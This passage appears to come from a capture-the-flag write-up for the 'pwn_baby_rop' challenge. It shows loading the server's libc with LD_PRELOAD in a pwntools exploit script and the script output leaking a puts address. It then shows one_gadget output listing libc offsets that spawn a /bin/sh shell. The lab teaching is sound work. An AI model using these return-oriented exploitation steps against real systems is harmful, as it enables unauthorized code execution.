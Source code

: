 In an ideal situation, there would be only one result. However, we can still find the good library using simple logic. The first 4 libraries are 32-bit, so they're out. The last 3 have the same offsets, so any of them can be used. Just select one of them and click 'download'.

## Using the Server's LIBC

After the LIBC library has been downloaded, we need to tell our computer to use that library instead of ours. To do that, we can simply modify the LD_PRELOAD environment variable by changing

{% highlight python %}
io = process("./pwn_baby_rop")
{% endhighlight %}

to

{% highlight python %}
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9_amd64.so"}
io = process("./pwn_baby_rop", env=env)
{% endhighlight %}

After running the binary, we can see that the last 3 nibbles of the address are the same as the ones from the server, even though we run the binary on our machine:

{% highlight auto %}
$ python exploit.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts address: 0x7f62bc8935a0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$
{% endhighlight %}

## Introducing one_gadget

It's finally time to use [one_gadget](https://github.com/david942j/one_gadget). The principle behind this program is simple: the LIBC library contains some addresses that, when called, will spawn a shell. However, like the others, these addresses have different offsets for every version, so the program also need the library or a build hash to perform its magic. Running it is very simple:

{% highlight auto %}
$ one_gadget libc6_2.31-0ubuntu9_amd64.so 
0xe6ce3 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6ce6 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6ce9 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
{% endhighlight %}
